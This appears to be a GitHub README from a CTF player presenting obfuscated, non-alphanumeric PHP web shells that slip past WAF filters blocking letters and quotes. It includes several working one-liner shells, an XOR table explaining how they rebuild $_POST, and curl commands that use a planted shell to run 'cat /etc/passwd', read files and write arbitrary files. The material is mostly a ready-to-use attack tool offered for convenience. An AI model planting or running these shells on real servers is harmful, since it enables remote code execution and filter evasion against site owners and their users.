 # Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside.

This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.

At first there are already non-alphanumeric shells out in the wild but the ones i have seen had one thing in common they needed Quotation marks to create a string once to craft letters out of it.

So I thought to myself, that it would be a quite cool idea to develope a shell which could avoid that and still work the same way.
Thats the first Solution i came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
| - | - | - |
| A | 0 | q |
| A | 6 | w |
| q | w | . |
| a | 8 | Y |
| . | Y | _ |
| a | 1 | P |
| y | 6 | O |
| a | 2 | S |
| a | 5 | T |

Which resulted in \_POST and then can be used to run functions with arguments over code. (This feature is present since php7)

Like this:

```php
// $_ is $_POST
$_[0]($_[1]);
```

Thats quite cool but its so fucking huge so i tough i would optimize the hell out of it. So here is my Minified version of it.

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as ```0=system&1=cat /etc/passwd```

The downside is that if you dont have access to the system function you got no return values
so here is another slightly bigger variation of the shell which will print the result of a function.

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2]));
```

So you can send a request such as ```0=print_r&1=file_get_contents&2=/etc/passwd```

Here are small curl snippets for you lazy folks to work with the shell :D

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd" # Shell 1
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=file_get_contents" -F "2=/etc/passwd" # Shell 2
```

The full tryhard shell can be archived with this snipped:

```php
<?=$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2],$_[3]));
```

With this setup we can run any function with as much arguments as we like.


```bash
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=call_user_func_array" -F "2=file_put_contents" -F "3[]=hello.txt" -F "3[]=testcontent"
```


Cli-Ish over and out.

PS: Checkout our cool team page https://pwnprophecy.xyz

